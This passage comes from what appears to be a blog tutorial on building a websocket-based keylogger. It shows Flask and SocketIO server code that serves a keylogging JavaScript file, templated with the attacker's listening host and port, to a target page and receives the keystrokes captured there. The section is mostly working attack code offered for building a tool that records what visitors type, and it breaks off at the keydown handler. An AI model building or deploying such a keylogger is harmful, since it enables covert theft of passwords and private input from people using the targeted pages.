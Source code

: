 Flask normally sends a lot of output to stdout. This is an awesome feature for debugging a web application. However, we want stdout to be reserved for displaying keystrokes. To do this, we use Python's logging module to send all log output to a logfile.

{% highlight python %}

logging.basicConfig(filename='wskeylogger.log', level=logging.INFO)

{% endhighlight %}

We then instantiate our Flask application, patch it with Flask-CORS, and then use it to create a new SocketIO object. We also create a global dictionary, __input_tags__, that will be used to keep track of the current state of every input tag on the target page.

{% highlight python %}

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret'
socketio = SocketIO(app)

input_tags = {}

{% endhighlight %}
	
We then define a route for our index page. Our index is tasked with handling requests for our keylogging JavaScript file. As previously mentioned, the JavaScript file is built dynamically using the Jinja templating engine. The values of lhost and lport are passed in from our Python code, and set to the corresponding global variables that we placed at the top of the file. 

{% highlight python %}

	@app.route('/')
	def index():
	
		jsfile = render_template('wsk.js', lhost=LHOST, lport=LPORT)
		response = make_response(jsfile)
		response.headers['Content-Type'] = 'application/javascript'
		return response
		
{% endhighlight %}

We next define functions to handle new and terminating connections.

{% highlight python %}

@socketio.on('connect', namespace='/keylogger')
def test_connect():

    emit('confirm connection', { 'data' : 'Connected' })
	
@socketio.on('disconnect', namespace='/keylogger')
def test_disconnect():
    print 'Client disconnected'

{% endhighlight %}

The majority of the work done by the keylogger's backend will occur in the keydown function. The keydown function is triggered when the client emits a keydown event. The function's only argument, __message__, contains the data sent from the client. We use message to set our function's local variables.
